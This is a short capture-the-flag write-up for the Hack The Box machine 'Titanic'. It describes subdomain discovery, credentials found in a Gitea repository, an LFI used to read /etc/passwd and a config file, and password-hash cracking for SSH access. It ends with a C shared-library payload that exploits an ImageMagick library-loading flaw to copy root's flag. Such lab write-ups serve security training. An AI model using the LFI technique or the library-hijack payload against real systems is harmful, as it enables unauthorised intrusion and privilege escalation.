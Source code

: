 ```yaml
---
title: "[HTB] Titanic"
layout: post
categories: media
---
```


~~Initially didnt find any subdomains~~, however it was due to using _subfinder_, so pulled up my g named ffuf and got the real deal.
>![initial enum](/assets/images/titanic/1.png)


It immediately found dev subdomain, which contains gitea, which contains 1) docker-config and 2) flask app file
>![subdomian](/assets/images/titanic/2.png)
>![gitea](/assets/images/titanic/3.png)
>>Bazar zhok, nashel creds.
>>![sql](/assets/images/titanic/4.png)
>> I have a conf file
>>![conf file path](/assets/images/titanic/5.png)
>> I have a path
>>![dev path](/assets/images/titanic/6.png)
>> ugh, path of a conf file.
---

### Found LFI in post request
doesnt need explanation

>![post request](/assets/images/titanic/7.png)
>![burp](/assets/images/titanic/8.png)
>![/etc/passwd](/assets/images/titanic/9.png)

---

> Now use LFI to read conf file:
>>![kek](/assets/images/titanic/10.png)
>>![db](/assets/images/titanic/11.png)
>>crack developer hash, which is pbkdf2$50000$50.
>>
>>It can be done, pretty easily using useful 0xdf command that retrives from db and saves it in correct format. It can be found in my cheatsheet, or his website. Also Ippsec had a scrypt for this - https://gist.github.com/h4rithd/0c5da36a0274904cafb84871cf14e271
![creacked hash](/assets/images/titanic/12.png)
Now connect through ssh and get the user.txt


---
### root.txt

there is a file in  /opt/scripts that uses magickstick. there is a cve for that - https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8. tried xml, doesnt work, but shared library works, so just use the following:

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root.txt");
    exit(0);
}
EOF
```
